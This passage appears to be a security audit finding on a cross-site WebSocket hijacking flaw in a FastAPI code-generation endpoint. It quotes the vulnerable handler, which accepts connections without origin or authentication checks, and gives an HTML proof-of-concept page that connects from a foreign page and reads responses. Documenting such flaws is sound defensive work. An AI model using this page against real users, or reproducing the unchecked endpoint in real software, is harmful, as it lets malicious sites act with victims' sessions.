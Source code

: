### Missing Mitigations
1. Origin validation for WebSocket connections
2. CORS policy specifically for WebSocket endpoints
3. Anti-CSRF tokens for WebSocket connections
4. Authentication checks before accepting connections

### Preconditions
1. Target user must have an active session with the application
2. Target user must visit the attacker's webpage while the session is active
3. The application must be deployed in a way that makes it accessible to the attacker

### Source Code Analysis
In `routes/generate_code.py`, the WebSocket endpoint accepts connections without any origin validation:
```python
@router.websocket("/generate-code")
async def stream_code(websocket: WebSocket):
    await websocket.accept()
    print("Incoming websocket connection...")

    ## Communication protocol setup
    async def throw_error(message: str):
        print(message)
        await websocket.send_json({"type": "error", "value": message})
        await websocket.close(APP_ERROR_WEB_SOCKET_CODE)
```

FastAPI does support origin validation for WebSockets, but it's not implemented here. When a connection is received, it's immediately accepted with `await websocket.accept()` without checking the origin of the request.

This means that if a user is authenticated to the application and visits a malicious site, that site can establish a WebSocket connection to the application using the user's credentials.

### Security Test Case
1. Set up the application on localhost:7001
2. Create an HTML file with the following JavaScript:
   ```html
   <!DOCTYPE html>
   <html>
   <body>
   <script>
     const ws = new WebSocket('ws://localhost:7001/generate-code');
     ws.onopen = () => {
       console.log('Connection opened');
       ws.send(JSON.stringify({
         "generatedCodeConfig": "html_tailwind",
         "inputMode": "image",
         "image": "data:image/png;base64,..."
       }));
     };
     ws.onmessage = (event) => {
       console.log('Received:', event.data);
       document.body.innerHTML += `<pre>${event.data}</pre>`;
     };
   </script>
   </body>
   </html>
   ```
3. Open this HTML file in a browser that has previously accessed the application
4. If the WebSocket connects and receives responses, the vulnerability is confirmed
